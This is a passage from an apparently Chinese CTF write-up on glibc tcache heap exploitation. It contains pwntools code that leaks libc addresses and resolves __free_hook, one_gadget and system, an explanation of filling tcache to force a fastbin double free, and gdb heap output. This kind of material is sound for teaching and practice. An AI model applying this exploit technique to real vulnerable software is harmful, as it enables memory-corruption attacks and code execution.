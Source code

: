 ```
```

这两个函数的会在函数 `_int_free `和 `__libc_malloc `的开头被调用，其中` tcache_put `当所请求的分配大小不大于`0x408`并且当给定大小的` tcache bin `未满时调用。一个` tcache bin` 中的最大块数`mp_.tcache_count`是7。

泄露地址：

```
# 法一：
create(0x440,"1"*0x100,"AAA") #0-8 #0 a big enough chunk won't in tcache.
create(0x18,"1"*0x100,"AAA") #1
free(0)
show(0)
p.recvuntil("name:\n")
leak = u64(p.recv(6).ljust(8,'\x00'))
libc.address = leak  - (0x7fae5b0eeca0 - 0x7fae5af0a000)
one_gadget = libc.address  + 0xdf991
free_hook = libc.sym['__free_hook']
malloc_hook = libc.sym['__malloc_hook']
system = libc.sym['system']

# 法二：
for i in range(9):
	create(0x100,"1"*0x100,"AAA") #0-8
for i in range(9):
	free(i)
show(7)
p.recvuntil("name:\n")
data = u64(p.recvuntil("\n",drop=True)+"\x00\x00")
```

利用思路：先创建多个堆块，再free只要达到把tcache的7个位置填满，然后还有剩余两个没有被free的堆块做double free就会把堆块放到fastbin上面去了，就可以成功double free了。此时堆的情况如下：

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x56340041e610 --> 0x56340041e580 --> 0x56340041e610 (overlap chunk with 0x56340041e610(freed) )
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x56340041ec90 (size : 0x20370) 
       last_remainder: 0x56340041e6a0 (size : 0x20) 
            unsortbin: 0x0
(0x70)   tcache_entry[5](6): 0x56340041eb60 --> 0x56340041e500 --> 0x56340041e470 --> 0x56340041e3e0 --> 0x56340041e350 --> 0x56340041e2c0
```
